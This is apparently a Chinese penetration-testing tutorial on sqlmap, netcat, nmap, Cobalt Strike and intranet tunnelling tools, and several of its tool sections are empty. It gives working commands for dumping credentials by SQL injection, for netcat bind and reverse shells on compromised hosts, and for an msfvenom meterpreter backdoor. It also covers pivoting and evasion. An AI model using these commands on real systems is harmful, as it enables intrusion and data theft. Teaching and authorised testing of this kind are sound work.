# 工具使用

## sqlmap工具

### sqlmap简介

sqlmap支持五种不同的注入模式：

1. 基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
2. 基于时间的盲注，即不能根据页面的返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
3. 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
4. 联合查询注入，可以使用union的情况下的注入。
5. 堆查询注入，可以同时执行多条语句的执行时的注入。

### sqlmap支持的数据库

`mysql、oracle、postgresql、Microsoft SQL server、Microsoft access、IBM DB2、sqlite、Firebird, Sybase和SAP MaxDB`

### 检测注入

* **基本格式**

```
get格式：
sqlmap -u "http://xxxx.xxx/index.php?id=x" 
默认使用level1检测全部数据库类型
sqlmap -u "http://xxx.xxx/index.php?id=x" --dbms mysql --level 3
指定数据库类型为mysql 级别为3（共5级，级别越高，检测越全面）
```

*   **跟随302跳转**

    当注入页面错误的时候，自动跳转到另一个页面的时候需要跟随302，当注入错误的时候，先报错再跳转的时候，不需要跟随302。目的：要追踪到错误信息。
* **cookie注入**

```
当程序有防止get注入的时候，可以使用cookie注入
sqlmap -u "http://xxx.xxx/index.php" --cookie  “id=11” –level 2（只有level达到2才会检测cookie）
```

* **post数据包注入**

```
可以使用burpsuite工具抓取post数据包
sqlmap -r "post数据包存放路径" -p "注入参数"  
```

### 注入成功后

* **获取数据库基本信息**

```sql
sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 –dbs
查询有哪些数据库
sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D test –tables
查询test数据库中有哪些表
sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D test -T admin –columns
查询test数据库中admin表有哪些字段
sqlmap -u "http://xxx.xxx/index.php?id=X" -D test -T admin -C "username,password" --dump
dump出字段username与password中的数据
```

* **从数据库中搜索字段**

```
sqlmap -r "文件路径" -D "数据库名" --search -C admin,password 
在数据库中搜索字段admin与password
```

* **读取与写入文件**

```
	首先需要找个网站的物理路径，其次需要有可写或可读的权限
	--file-read=RFILE 从后端的数据库管理系统文件系统读取文件（物理路径）
	--file-wirte=WFILE 编辑后端的数据库管理系统文件系统上的本地文件
	--file-dest=DFILE 后端的数据库管理系统写入文件的绝对路径
```

### sqlmap详细命令

* **常用命令**
  * `--is-dba`: 当前用户权限（是否为root权限）
  * `--dbs`: 枚举所有数据库
  * `--current-db`: 显示网站当前数据库
  * `--users`: 枚举所有数据库用户
  * `--current-user`：显示当前数据库用户
  * `--random-agent`： 构造随机user-agent
  * `--passwords`： 显示数据库密码
  * `proxy http://xxx.xxx --threads 10` ：(可以 自定义线程加速)代理
  * `--time-sec`: DBMS响应的延迟时间（默认为5秒）
* **options(选项)：**
  * `--version`：显示sqlmap的版本号
  * `-h、--help`：显示帮助信息
  * `-v` ： VERBOSE 详细级别：0-6（默认为1）
  * ```
    保存进度继续跑：
    sqlmap -u "网址" --dbs-o "sqlmap.log"  保存进度
    sqlmap -u "网址"  --dbs-o "sqlmap.log"  --resume 恢复已保存进度
    ```
*   **Target(目标)：**

    以下至少需要设置其中一个选项，设置目标URL:

    * `-d`：直接连接到数据库
    * `-u`: URL 连接目标 URL
    * `-l`: LIST 从burpsuite或者WebScarab代理的日志中解析目标
    * `-r`: REQUESTFILE 从一个文件中载入http请求
    * `-g`: 处理Google dork的结果作为目标URL
    * `-c`: CONFIGFILE 从INI配置文件中加载选项
*   **Request（请求）**：

    这些选项可以用来指定如果连接到目标URL

    * `--data=DATA`: 通过post发送的数据字符串
    * `--cookie=COOKIE`: http cookie头
    * `--cookie-urlencode`: URL编码生成的cookie注入
    * `--drop-set-cookie`： 忽略响应的set-cookie头信息
    * `--user-agent=AGENT`: 指定http User-Agent头
    * `--random-agent`： 使用随机选定的http user-agent头
    * `--referer=REFERER`：指定http Referer头
    * `--headers=HEADERS`: 换行分开，加入其他的http头
    * `--auth-type=ATYPE`: http身份验证类型（基本、摘要或NTLM）
    * `--auth-cred=ACRED`: http身份验证凭据
    * `--auth-cert=ACERT`: http 认证证书
    * `--proxy=PROXY`: 使用http代理身份链接到目标URL
    * `--proxy-cred=PCRED`: http代理身份验证凭据（用户名：密码）
    * `--ignore-proxy`：忽略系统默认的http代理
    * `--delay=DELAY`: 在每个http请求之间的延迟时间，单位为秒
    * `--timeout=TIMEOUT`: 等待连接超时的时间（默认为30秒）
    * `--retries=RETRIES` : 连接超时后重新连接的时间（默认为3秒）
    * `--scope=SCOPE`： 从所提供的代理日志中过滤目标的正则表达式
    * `--safe-url=SAFURL`: 在测试过程中经常访问的URL地址
    * `--safe-freq=SAFREQ` : 两次访问之间测试请求，给出安全的URL
*   **Enumeration（枚举）：**

    这些选项可以用来枚举后端数据库管理系统的信息、表中的结构以及数据。此外，也可以运行自己的sql语句。

    * `-b、--banner`: 检索数据库管理系统的标识
    * `--current-user`： 检索数据库管理系统当前用户
    * `--current-db`： 检索数据库管理系统当前数据库
    * `--is-dba`: 检测DBMS当前用户是否是root权限
    * `--users`: 枚举数据库管理系统所有用户
    * `--passwords`: 枚举数据库管理系统用户密码哈希值
    * `--privileges`: 枚举数据库管理系统用户的权限
    * `--roles`： 枚举数据库管理系统用户的角色
    * `--dbs`： 枚举数据库管理系统数据库
    * `-D` : 要进行枚举的指定数据库名
    * `-T`： 要进行枚举的指定数据库表名
    * `--tables`：枚举指定数据库中的表
    * `--columns`: 枚举指定表中的字段
    * `--dump`: 转储数据库管理系统的数据库中的表项
    * `--dump-all`: 转储所有的数据库表中的条目
    * `--search`： 搜索列，表或者数据库名称
    * `-C`： 要进行枚举的数据库列
    * `-U`: 用来进行枚举的数据库用户
    * `--exclude-sysdbs`:枚举表时排除系统数据库
    * `--sql-query`: 要执行的sql语句
    * `--sql-shell`: 提示交互式sql的shell
*   **Optimization(优化)：**

    这些选项可用于优化sqlmap的性能

    * `-o`： 开启所有的优化开关
    * `--predict-output`: 预测常见的查询输出
    * `--keep-alive`: 使用持久的http(s)连接
    * `--null-connection`: 从没有实际的http响应体中检索页面长度
    * `--threads`: 最大的http（s）请求并发量（默认为1）
*   **Injection（注入）**

    这些选项可以用来指定测试哪些参数， 提供自定义的注入payloads和可选篡改脚本

    * `-p`: 可测试注入的参数
    * `--dbms`: 强制后端的DBMS为此值
    * `–os`: 强制后端的DBMS操作系统为这个值
    * `--prefix`： 注入payload字符串前缀
    * `--suffix`： 注入payload字符串后缀
    * `–tamper`： 使用给定的脚本（S）篡改注入数据
*   **Detection(检测)：**

    这些选项可以用来指定在SQL盲注时如何解析和比较HTTP响应页面的内容。

    * `--level`： 执行测试的等级（1-5，默认为1）
    * `--risk`：执行测试的风险（0-3，默认为1）
    * `--string`: 查询时有效时在页面匹配字符串
    * `--regexp`: 查询时有效时在页面匹配正则表达式
    * `--text-only` : 仅基于在文本内容比较网页
*   **Techniques(技巧)：**

    这些选项可用于调整具体的SQL注入测试。

    * `--technique`: sql注入技术测试（默认时BEUST）
    * `--time-sec`: 数据库管理系统响应的延迟时间（默认为5秒）
    * `--union-cols`: 定列范围用于测试union查询注入
    * `--union-char`: 用于暴力猜解列数的字符
*   **Fingerprint(指纹):**

    `-f, –fingerprint`: 执行检查广泛的DBMS版本指纹

## nc(NetCat瑞士军刀)

### 简介

 **Netcat** 常称为 nc，拥有“瑞士军刀”的美誉。nc 小巧强悍，可以读写TCP或UDP网络连接，它被设计成一个可靠的后端工具，能被其它的程序或脚本直接驱动。同时，它又是一个功能丰富的网络调试和开发工具，因为它可以建立你可能用到的几乎任何类型的连接，以及一些非常有意思的内建功能，它基于socket协议工作。在渗透测试领域，我们通常利用它来反弹shell。

### 主要功能

* Telnet功能
* 获取banner信息
* 传输文本信息
* 传输文件/目录
* 加密传输文件，默认不加密
* 远程控制
* 加密所有流量
* 流媒体服务器
* 远程克隆硬盘

### 常用命令

* `-u`：使用UDP协议传输
* `-l`：开启监听
* `-p`：指定端口
* `-n`：以数字形式代表ip
* `-v`：显示执行命令过程
* `-t`：以telnet形式应答
* `-z`：不进行交互，直接显示结果
* `-w`：设置超时时间
* `-e`：程序重定向

### 常见的用法

#### 端口扫描

如果想单纯的端口扫描的话，使用其他工具如nmap会更好。nc端口扫描最主要的用途是：当我们获得了一个网站的权限之后，我们想再渗透进该网站的内网进行渗透。然而我们的nmap工具是不能扫描到内网的。所以这时我们可以把nc上传到web服务器上，利用他来扫描内网主机。而由于nc体积很小，所以不容易被发现。


#### 聊天

我们可以利用nc做一个简易版本的聊天工具，通过一边监听端口，一边发送消息去该端口，形成一个简易版本的服务端——客户端模型。

**服务器端**

```
nc -lvp 39990 #监听39990端口 -l 监听  -v 显示详细信息  -p 指定端口
```

**客户端**

```shell
nc -nv 39.***.***.*** 39990 #连接到服务器的39990端口 -n 以数字的形式显示 -v显示详信息
```

 

#### 文件传输

我们可以利用nc往客户端传送文件

**服务器端**：

```shell
nc -vlp 39990 < a.txt
```

**客户端**：

```
nc -nv 39.***.***.*** 39990 > a.txt
```

 


#### 反弹shell

> **正向连接，意思就是我们主动连接肉鸡**
>
> 假如我们入侵到了一台主机上，我们可以通过执行以下命令将该主机的cmd(shell)权限弹到39990端口上

**肉鸡**

```
nc -lvp 39990 -t -e cmd.exe
```

然后我们的主机访问该肉鸡的39990端口

**我们的主机**

```shell
nc -nv 39.***.***.*** 39990
```


> 反向连接，意思就是我们监听端口，然后肉鸡主动连接到我们的主机

**我们的主机**

```
nc -vlp 39990
```

**肉鸡**

```
nc -nv -t -c 192.168.1.129 39990
```


#### 蜜罐

> 作为蜜罐，一直监听39990端口，直到Ctrl+C停止

```
nc -lp 39990 > log.txt   #监听8888端口，并且将日志信息写入log.txt中
```

## nmap

### 简介

Nmap (“Network Mapper(网络映射器)”) 是一款开放源代码的 网络探测和安全审核的工具。它的设计目标是快速地扫描大型网络，当然用它扫描单个 主机也没有问题。Nmap以新颖的方式使用原始IP报文来发现网络上有哪些主机，那些 主机提供什么服务(应用程序名和版本)，那些服务运行在什么操作系统(包括版本信息)， 它们使用什么类型的报文过滤器/防火墙，以及一堆其它功能。虽然Nmap通常用于安全审核， 许多系统管理员和网络管理员也用它来做一些日常的工作，比如查看整个网络的信息， 管理服务升级计划，以及监视主机和服务的运行。

Nmap输出的是扫描目标的列表，以及每个目标的补充信息，至于是哪些信息则依赖于所使用的选项。 “所感兴趣的端口表格”是其中的关键。那张表列出端口号，协议，服务名称和状态。状态可能是 `open`(开放的)，`filtered`(被过滤的)， `closed`(关闭的)，或者`unfiltered`(未被过滤的)。 Open(开放的)意味着目标机器上的应用程序正在该端口监听连接/报文。 `filtered`(被过滤的) 意味着防火墙，过滤器或者其它网络障碍阻止了该端口被访问，Nmap无法得知 它是 `open`(开放的) 还是 `closed`(关闭的)。 `closed`(关闭的) 端口没有应用程序在它上面监听，但是他们随时可能开放。 当端口对Nmap的探测做出响应，但是Nmap无法确定它们是关闭还是开放时，这些端口就被认为是 `unfiltered`(未被过滤的) 如果Nmap报告状态组合 `open|filtered` 和 `closed|filtered`时，那说明Nmap无法确定该端口处于两个状态中的哪一个状态。 当要求进行版本探测时，端口表也可以包含软件的版本信息。当要求进行IP协议扫描时 (`-sO`)，Nmap提供关于所支持的IP协议而不是正在监听的端口的信息。

> **端口状态：**
>
> Open:表示端口处于开放状态
>
> Closed:表示端口处于关闭状态
>
> Filterd:表示端口处于过滤无法收到返回的probe状态
>
> UnFilterd：表示端口收到返回的probe，但是无法确认
>
> Open/UnFilterd: 表示端口处于开放或者是未过滤状态
>
> Closed/UnFilterd：表示端口处于关闭或者未过滤状态

nmap进行探测之前要把域名通过DNS服务器解析为IP地址，我们也可以使用指定的DNS服务器进行解析。使用--dns-servers参数来指定。

### 常用命令

```
1. nmap -sT 192.168.96.4  //TCP连接扫描，不安全，慢

2. nmap -sS 192.168.96.4  //SYN扫描,使用最频繁，安全，快

3. nmap -Pn 192.168.96.4  //目标机禁用ping，绕过ping扫描

4. nmap -sU 192.168.96.4  //UDP扫描,慢,可得到有价值的服务器程序

5. nmap -sI 僵尸ip 目标ip  //使用僵尸机对目标机发送数据包

6. nmap -sA 192.168.96.4  //检测哪些端口被屏蔽

7. nmap 192.168.96.4 -p <portnumber>  //对指定端口扫描

8. nmap 192.168.96.1/24 //对整个网段的主机进行扫描

9. nmap 192.168.96.4 -oX myscan.xml //对扫描结果另存在myscan.xml

10. nmap -T1~6 192.168.96.4  //设置扫描速度，一般T4足够。

11. nmap -sV 192.168.96.4  //对端口上的服务程序版本进行扫描

12. nmap -O 192.168.96.4  //对目标主机的操作系统进行扫描

13. nmap -sC <scirptfile> 192.168.96.4  //使用脚本进行扫描，耗时长

14. nmap -A 192.168.96.4  //强力扫描，耗时长

15. nmap -6 ipv6地址   //对ipv6地址的主机进行扫描

16. nmap -f 192.168.96.4  //使用小数据包发送，避免被识别出

17. nmap –mtu <size> 192.168.96.4 //发送的包大小,最大传输单元必须是8的整数

18. nmap -D <假ip> 192.168.96.4 //发送参杂着假ip的数据包检测

19. nmap --source-port <portnumber> //针对防火墙只允许的源端口

20. nmap –data-length: <length> 192.168.96.4 //改变发生数据包的默认的长度，避免被识别出来是nmap发送的。

21. nmap -v 192.168.96.4  //显示冗余信息(扫描细节)

22. nmap -sn 192.168.96.4  //对目标进行ping检测，不进行端口扫描（会发送四种报文确定目标是否存活,）

23. nmap -sP 192.168.96.4  //仅仅对目标进行ping检测。

24. nmap -n/-p 192.168.96.4  //-n表示不进行dns解析，-p表示要

25. nmap --system-dns 192.168.96.4  //扫描指定系统的dns服务器

26. nmap –traceroute 192.168.96.4  //追踪每个路由节点。

27. nmap -PE/PP/PM: 使用ICMP echo, timestamp, and netmask 请求包发现主机。

28. nmap -sP 192.168.96.4       //主机存活性扫描，arp直连方式。

29. nmap -iR [number]       //对随机生成number个地址进行扫描。
```

### 目标说明

除了选项，所有出现在Nmap命令行上的都被视为对目标主机的说明。最简单的情况是指定一个目标IP地址或者主机名。

有时候您希望扫描整个网络的相邻主机。为此，Nmap支持CIDR风格的地址。您可以附加 一个/\*`<numbit>`\*在一个IP地址或主机名后面， Nmap将会扫描所有和该参考IP地址具有 \*`<numbit>`\*相同比特的所有IP地址或主机。 例如，192.168.10.0/24将会扫描192.168.10.0 (二进制格式: `11000000 10101000 00001010 00000000`)和192.168.10.255 (二进制格式: `11000000 10101000 00001010 11111111`)之间的256台主机。 192.168.10.40/24 将会做同样的事情。假设主机 scanme.nmap.org的IP地址是205.217.153.62， scanme.nmap.org/16 将扫描205.217.0.0和205.217.255.255之间的65,536 个IP地址。 所允许的最小值是/1， 这将会扫描半个互联网。最大值是/32，这将会扫描该主机或IP地址， 因为所有的比特都固定了。

CIDR标志位很简洁但有时候不够灵活。例如，您也许想要扫描 192.168.0.0/16，但略过任何以.0或者.255 结束的IP地址，因为它们通常是广播地址。 Nmap通过八位字节地址范围支持这样的扫描 您可以用逗号分开的数字或范围列表为IP地址的每个八位字节指定它的范围。 例如，192.168.0-255.1-254 将略过在该范围内以.0和.255结束的地址。 范围不必限于最后的8位：0-255.0-255.13.37 将在整个互联网范围内扫描所有以13.37结束的地址。 这种大范围的扫描对互联网调查研究也许有用。

IPv6地址只能用规范的IPv6地址或主机名指定。 CIDR 和八位字节范围不支持IPv6，因为它们对于IPv6几乎没什么用。

Nmap命令行接受多个主机说明，它们不必是相同类型。命令**nmap scanme.nmap.org 192.168.0.0/8 10.0.0，1，3-7.0-255**将和您预期的一样执行。

虽然目标通常在命令行指定，下列选项也可用来控制目标的选择：

* `-iL<inputfilename>`(从列表中输入)
  * 从 _`<inputfilename>`中读取目标说明。在命令行输入 一堆主机名显得很笨拙，然而经常需要这样。 例如，您的DHCP服务器可能导出10,000个当前租约的列表，而您希望对它们进行 扫描。如果您不是_使用未授权的静态IP来定位主机，或许您想要扫描所有IP地址。 只要生成要扫描的主机的列表，用`-iL` 把文件名作为选项传给Nmap。列表中的项可以是Nmap在 命令行上接受的任何格式(IP地址，主机名，CIDR，IPv6，或者八位字节范围)。 每一项必须以一个或多个空格，制表符或换行符分开。 如果您希望Nmap从标准输入而不是实际文件读取列表， 您可以用一个连字符(`-`)作为文件名。
* `-iR <hostnum>` (随机选择目标)
  * 对于互联网范围内的调查和研究， 您也许想随机地选择目标。 _`<hostnum>`_ 选项告诉 Nmap生成多少个IP。不合需要的IP如特定的私有，组播或者未分配的地址自动 略过。选项 `0` 意味着永无休止的扫描。记住，一些网管对于未授权的扫描可能会很感冒并加以抱怨。 使用该选项的后果自负! 如果在某个雨天的下午，您觉得实在无聊， 试试这个命令**nmap -sS -PS80 -iR 0 -p 80**随机地找一些网站浏览。
* `--exclude <host1[，host2][，host3]，...>` (排除主机/网络)
  * 如果在您指定的扫描范围有一些主机或网络不是您的目标， 那就用该选项加上以逗号分隔的列表排除它们。该列表用正常的Nmap语法， 因此它可以包括主机名，CIDR，八位字节范围等等。 当您希望扫描的网络包含执行关键任务的服务器，已知的对端口扫描反应强烈的系统或者被其它人看管的子网时，这也许有用。
* `--excludefile <excludefile>` (排除文件中的列表)
  * 这和`--exclude` 选项的功能一样，只是所排除的目标是用以换行符空格或者制表符分隔的`excludefile>`提供的，而不是在命令行上输入的。

### 主机发现

## wget

## WFuzz

## nikto


## gobuster


## dirseach


## john


## python


## metesploit(msfconsole)


## msfvenom


## cobalt strike(CS)

### 1. 介绍

Cobalt Strike是一款基于java的渗透测试神器，常被业界人称为CS神器。自3.0以后已经不在使用Metasploit框架而作为一个独立的平台使用，分为客户端与服务端，服务端是一个，客户端可以有多个，非常适合团队协同作战，多个攻击者可以同时连接到一个团队服务器上，共享攻击资源与目标信息和sessions，可模拟APT做模拟对抗，进行内网渗透。

Cobalt Strike集成了端口转发、服务扫描，自动化溢出，多模式端口监听，win exe木马生成，win dll木马生成，java木马生成，office宏病毒生成，木马捆绑；钓鱼攻击包括：站点克隆，目标信息获取，java执行，浏览器自动攻击等等。

### 2.


# 隧道代理工具

## netsh

### netsh端口映射

**1. 简介**

> netsh 是windows 系统自带的一个命令行工具，这个工具可以内置中端口转发功能。

**2.网络拓扑**



~~~
1. 设置转发
netsh interface portproxy add v4tov4 listenport=7777 connectaddress=10.10.10.11 connectport=80
2. 查看转发规则
netsh interface portproxy show all
3. 清除规则指定规则
netsh interface portproxy delete v4tov4 listenport=7777
4. 清除s 所有规则规则
netsh interface portproxy reset

~~~

>  listenport=7777为中间代理机器的侦听端口
>
> connectaddress=10.10.10.11  端口映射的内网ip
>
> connectport=80 	端口映射的内网端口


访问192.168.59.22:7777即可获取B机器的web服务内容




### netsh端口转发（netsh 端口转发监听metperter）

> 在服务器A 上可以通过设置代理访问B 服务器.如果拿到b 服务器的权限通常是生成正向的后门，然后kali 的msf 可以正向连接B 服务器，由此得到metperter，进而进行其他操作。如果服务器B 上有防火墙拦截，kali 的msf 不能正向连接上后门，为解决这问题，可以通过生成一个反向后门连接到服务器A上，在服务器A 上再通过端口映射或者转发给kali 的msf 上。

**1. msf生成后门**

~~~
msfvenom -p windows/meterpreter/reverse_tcp LPORT=6666 LHOST=192.168.59.22 -f exe > 1.exe
~~~

**2. 在A机器上增加端口转发到kali**

将A机器上的6666转发到上的6666

~~~
netsh interface portproxy add v4tov4 listenport=6666 connectaddress=192.168.59.10 connectport=6666
~~~

**3. kali启动msfconsole**

~~~
use windows/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.59.10
set lport 6666
~~~


**4. 在B机器上执行后门文件**



kali机器获的反弹的shell

## cobalt strike多层内网上线



> cobalt strike 简称cs ，它作为APT 攻击神器，APT 长期是以攻击企业内网为主，所以考虑到内网穿透。内网穿透方式，分为正向和反向，正向是可以直连内网主机，反向是让受害者反向连接。正向连接可以直接连接目标得到权限。下面是一个正向连接图。存在两个段teamserver 不允许访问B，现在服务器上A 有权限。可以通过cs 的正向连接连接B。

### cobalt strike 正向连接多层内网



> 首先A 服务上已经有了cs 的后门。通过后门查看网络信息发现存在10.10.10.0/24因为网段A 是可以访问B 的所以在teamserver 通过A 作为作为跳板可以访问B。

**1. 生成监听器**

选择beacon-tcp



选择windows executable(s)



填写名字和要连接的端口


生成的后门在B 服务器上执行

打开cs 选择192.168.59.22的interact 进入beacon 用命令连接上B 服务器connect 10.10.10.11 4444

### cobalt strike 反向连接多层内网

> 上面介绍到正向连接到多层内网，如果在B 服务器上有防火墙进行拦截，那么正向连接就会连接失败。为了解决这一问题可以采用cobalt strike 的反向连接。反向连接可以突破防火墙的拦截，因为是从服务器内部反向连接出站。
>
> 以下是一个存在防火墙的反向连接teamserver 的图:



Teamserver 通过A 连接B 是不允许的。因为有防火墙拦截，正向连接失败。
怎么解决？可以用反向连接突破。
1.在选择做代理的会话选择listerner

设置新的监听器填写名字host 与port 保存即可







2.创建后门



3.在B机器上执行后门

在b机器上执行后门之后，后门会主动连接A机器

4.得到新的B机器的会话



## 内网穿透Neo-reGeorg 的使用



> 拓扑图A 是攻击者通过访问B 的80 端口获取一个系统权限，C 数据库服务器不能出网，但是B 能访问。可以在B 设置代理那么A 就能通过代理访问C 的服务器以及C 的整个内网网段。reGeorg 是一个能穿透内网的工具，基于socks5而且支持的脚本众多。可以说是内网穿透神器，但是作为使用率较多的软件，杀软都会拦截，使用还要做免杀处理，现有一个项目是由reGeorg 修改而来，而且做了加密处理，脚本也免杀项目地址https://github.com/L-codes/Neo-reGeorg

**使用方法：**

输入密码生成加密脚本

~~~
python3 neoreg.py generate -k password
~~~



abcefg是生成的密码，生成的脚本是免杀的


把脚本放到中间的B机器上，然后开启侦听

~~~
python3 neoreg.py -k password -u http://192.168.0.142/tunnel.php
~~~








如有用nmap 扫描C 的端口还可以设置proxychains

> 修改/etc/proxychains.conf
> 增加socks5 127.0.0.1 1080
> Proxychains nmap -sT -Pn10.10.10.155 -p 80

## SSH 隧道转发的常见场景

> SSH 会自动加密和解密所有SSH 客户端与服务端之间的网络数据。但是，SSH 还能够将其他TCP 端口的网络数据通过SSH 链接来转发，并且自动提供了相应的加密及解密服务。这一过程也被叫做“隧道”（tunneling），这是因为SSH 为其他TCP 链接提供了一个安全的通道来进行传输而得名。例如，Telnet，SMTP，LDAP 这些TCP 应用均能够从中得益，避免了用户名，密码以及隐私信息的明文传输。而与此同时，如果工作环境中的防火墙限制了一些网络端口的使用，但是允许SSH 的连接，也能够通过将TCP 端口转发来使用SSH 进行通讯。

**SSH 端口转发的两大功能**

+ 加密SSH Client 端至SSH Server 端之间的通讯数据。
+ 突破防火墙的限制，完成一些之前无法建立的TCP 连接。

### **SSH 本地socks5 代理**



~~~bash
ssh -qTfnN -D 7070 root@8.210.55.154
~~~

> -C 为压缩数据，-q 安静模式，-T 禁止远程分配终端，-n 关闭标准输入，-N 不执行远程命令。此外视需要还可以增加-f 参数，把ssh 放到后台运行。

浏览器设置socks5 代理即可访问外网如谷歌




#### **SSH 本地转发**

正向连接

> 命令：-L localport:remotehost:remotehostport sshserver
> 说明:
> localport 本机开启的端口号
> remotehost 最终连接机器的IP 地址
> remotehostport 转发机器的端口号
> sshserver 转发机器的IP 地址

选项：
-f 后台启用
-N 不打开远程shell，处于等待状态（不加-N 则直接登录进去）
-g 启用网关功能


应用场景一



> 某企业要求A 访问内部网络的C 服务器的80 端口
> A 与b 能互通，B 与C 能互通，A 与C 不能通信。C 不能出网。
> 现在有个需求A 通过访问B 的某个端口就能访问到C 80 端口的WEB 服务。
> 可以使用ssh 本地转发远程ip，那么A 就能通过b 的端口转发访问C。

在A 服务器上执行
ssh -L 本地端口:目标IP:目标端口root@192.168.0.139 -fN
ssh -L 6666:10.10.10.155:80 root@192.168.0.139 -fN





常见环境应用二

把目标的端口转发出来
例如mysql 服务器只允许本地访问在外部不能访问。这就很好地保护了mysql免受外部攻击。



ssh -L 3306:localhost:3306 moonsec@192.168.0.139 -fN



转发后Navicat 访问本地3306 端口提示连接成功



#### ssh 远程转发

> 命令：-R sshserverport:remotehost:remotehostport sshserver
>
> 说明：sshserverport 被转发机器开启的端口号
> remotehost 最终连接机器的IP 地址
> remotehostport 被转发机器的端口号
> sshserver 被转发机器的IP 地址
>
> 
>
> 远程转发属于反向连接的一种，所以可以穿透内网防火墙。在内网渗透过程比较好用。以下是一个很经典的案例。



A 可以与B 互通B 与C 可以互相A 与C 不能通信。
现在想让A 访问C 80 端口需要在B 做转发，但是B 与C 内有防火墙拦截只允许3306 通过不允许80 端口通过。

这就用到SSH 隧道远程转发
首先修改/etc/ssh/sshd_config  GatewayPorts yes 如果没有请增加如果请把no 修改yes



这个配置的作用是远程转发后将127.0.0.1 改为0.0.0.0 A 通过指定端口就能访问C

**远程转发命令**

> 在C 服务器上执行
> ssh -R 本地端口:远程ip:远程端口ssh 服务器
>
> ssh -R 8877:10.10.10.157:80 moosec@10.10.10.147
> 或者
> ssh -R 8877:10.10.10.157:80 moosec@10.10.10.147 -fN
> 前者是可以登录可以操作shell 看需求选择合适的



A 访问B 的8877 端口即可访问C 的80 端口


## 使用Earthworm (EW) 做Socks5 代理完成内网穿透

EW 是一套便携式的网络穿透工具，具有SOCKS v5 服务架设和端口转发两大核心功能，可在复杂网络环境下完成网络穿透。

该工具能够以“正向”、“反向”、“多级级联”等方式打通一条网络隧道，直达网络深处。
目前该工具永久停止更新。
工具支持多个平台
工具的穿透模式分为正向代理和反向代理


### 正向代理



a 与b 互通b 与c 互通a 与c 不互通
a 获取b 的权限后在b 设置代理访问C 的80 端口那么A 就能访问C
在b 里执行ew_for_Win.exe -s ssocksd -l 8888



然后设置/etc/proxychains.conf
增加socks5 192.168.0.139 8888



### ew 反向代理

反向代理的好处是突破防火墙从内部连接外部



> 在b 上执行ew_for_linux64 -s rcsocks -l 1080 -e 1024
> 在c 上执行ew_for_Win.exe -s rssocks -d 10.10.10.153 -e 1024
> 在/etc/proxychins.conf 增加socks5 192.168.0.139 1080
> 用nmap 测试10.10.10.155 80 端口
> proxychins nmap -Pn -sT 10.10.10.155 -p 80



## frp 内网穿透

> frp 是一个可用于内网穿透的高性能的反向代理应用，支持tcp, udp 协议，为http 和https 应用协议提供了额外的能力，且尝试性支持了点对点穿透。
> 详细说明https://github.com/fatedier/frp/blob/master/README_zh.md
> 下载地址https://github.com/fatedier/frp/releases

**frp 的作用**

> 利用处于内网或防火墙后的机器，对外网环境提供http 或https 服务。对于http, https 服务支持基于域名的虚拟主机，支持自定义域名绑定，使多个域名可以共用一个80 端口。利用处于内网或防火墙后的机器，对外网环境提供tcp和udp 服务，例如在家里通过ssh 访问处于公司内网环境内的主机。

**frp 支持的平台**

> darwinlinux 386 amd64armmips mips64 mips64le mipslewindows 386 amd64

常用场景




C 是内部网络它的80 端口开放WEB 服务，B 与C 之间有防火墙过滤，现在想把C的80 端口映射到公网B 的8000 端口上那么A 访问公网的8000 的端口就能访问C 的80 端口的WEB 服务，同理如果想访问内网C 的22 端口，就把22 端口映射到公网某个端口上，那么A 就能访问B 的某个端口就能访问C 的SSH 服务，因为这种方式是从C 内部发起请求的，所以很好的穿透防火墙。




**测试环境**
B 公网vps 系统ubuntu18.04 x64
A 与B 分别都是内网的


**Frp 分为服务端和客户端**

frps 服务端为linux 负责处理请求，转发流量
Frpc 客户端linux 和windows 都支持负责把本地的流量连到服务器，让服务器读取&写入

frps 配置服务器端
在vps 上下载软件配置服务端

~~~
wget https://github.com/fatedier/frp/releases/download/v0.33.0/frp_0.33.0_linux_amd64.tar.gz
~~~


解压tar zxvf frp_0.33.0_linux_amd64.tar.gz
重命名mv zxvf frp_0.33.0_linux_amd64 frp
进入目录cd frp

配置服务端文件frps.ini

> [common]
> bind_port = 7000
> token = moonsec2020

bind_port 客户端连接的端口
token 密码一定设置复杂
运行./frps -c frps.ini 运行正常即可
设置开机启动

~~~
vi /lib/systemd/system/frps.service

[Unit]
Description=frps service
After=network.target syslog.target
Wants=network.target

[Service]
Type=simple
#启动服务的命令（此处写你的frps 的实际安装目录）
ExecStart=/root/frp/frps -c /root/frp/frps.ini
[Install]
WantedBy=multi-user.target
#启动frpc
systemctl daemon-reload
systemctl start frps
#设置为开机启动
systemctl enable frps
~~~

以上服务端配置完毕，frps 启动后将监听监听7000 端口
用ps aux 查看进程信息和netstat antl 端口





**frpc 配置客户端**
下载对应系统版本的frpc 配置客户端信息

~~~
[common]
server_addr = 8.210.55.154
server_port = 7000
token = moonsec2020
[ssh]
type = tcp
local_ip = 127.0.0.1
local_port = 22
remote_port = 6000
[web]
type = tcp
local_ip = 127.0.0.1
local_port = 80
remote_port = 8000
~~~

>  说明
> server_addr = 8.210.55.154 #服务器的IP
>
> server_port = 7000 #服务器的端口
> token = moonsec2020 #连接的密码
> [web] #服务器名
> type = tcp #连接协议类型
> local_ip = 127.0.0.1 #访问的ip 可以是内网任何一个ip
> local_port = 80 #本地端口
> remote_port = 8000 #远程服务器的ip

启动frpc.exe -c frpc.ini 通信正常后



用浏览器访问



整个流程就是客户端与服务器端建立通信后，当A 访问B 的的8000 端口后，B收到请求对流量进行转发，那么A 就能访问到C。

## DNS 隧道穿透防火墙

> DNS Tunneling，是隐蔽信道的一种，通过将其他协议封装在DNS 协议中传输建立通信。因为在我们的网络世界中DNS 是一个必不可少的服务，所以大部分防火墙和入侵检测设备很少会过滤DNS 流量，这就给DNS 作为一种隐蔽信道提供了条件，从而可以利用它实现诸如远程控制，文件传输等操作，现在越来越多的研究证明DNS Tunneling 也经常在僵尸网络和APT 攻击中扮演着重要的角色。

